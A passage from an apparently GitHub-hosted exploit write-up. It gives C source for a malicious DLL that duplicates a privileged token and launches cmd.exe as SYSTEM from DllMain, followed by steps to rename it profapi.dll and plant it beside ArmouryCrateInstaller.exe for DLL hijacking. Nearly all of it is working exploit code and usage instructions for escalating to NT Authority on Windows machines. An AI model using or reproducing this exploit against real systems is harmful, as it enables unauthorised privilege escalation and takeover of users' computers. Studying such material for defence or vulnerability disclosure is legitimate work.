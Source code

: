```c
        printf("[+] Impersonted The Token's User %lx \n", Impersonate);

        Duplicate = DuplicateTokenEx(TokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &NewToken);
        if (!Duplicate)
        {
            
            printf("[-] Faild To Dulplicate The Target Token\n");
        }
        printf("[+] Duplicated The Target Token %lx \n", Duplicate);

        BOOL NewProcess;
        STARTUPINFO lpStartupInfo = { 0 };
        PROCESS_INFORMATION lpProcessInformation = { 0 };

        lpStartupInfo.cb = sizeof(lpStartupInfo);

        NewProcess = CreateProcessWithTokenW(NewToken, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &lpStartupInfo, &lpProcessInformation);

        if (!NewProcess)
        {
            printf("[-] Faild To Create A SYSTEM Process \n");
        }
        printf("[+] Create A SYSTEM Process %lx \n", NewProcess);
        printf("[+] Getting System Shell \n");
        printf("-------------------------------------------------------\n");

        CloseHandle(NewToken);
        CloseHandle(hProcess);
        CloseHandle(TokenHandle);
    }
}

BOOL APIENTRY DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        exploit();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

1. Use Visual Studio 2019.
2. Compile the project in the DLL directory in x64 Release mode.
3. Rename the compiled dll to `profapi.dll` and place it in the same directory as ArmouryCrateInstaller.exe.
4. Run `ArmouryCrateInstaller`
5. We Will Get A System Shell With `NT Authority`
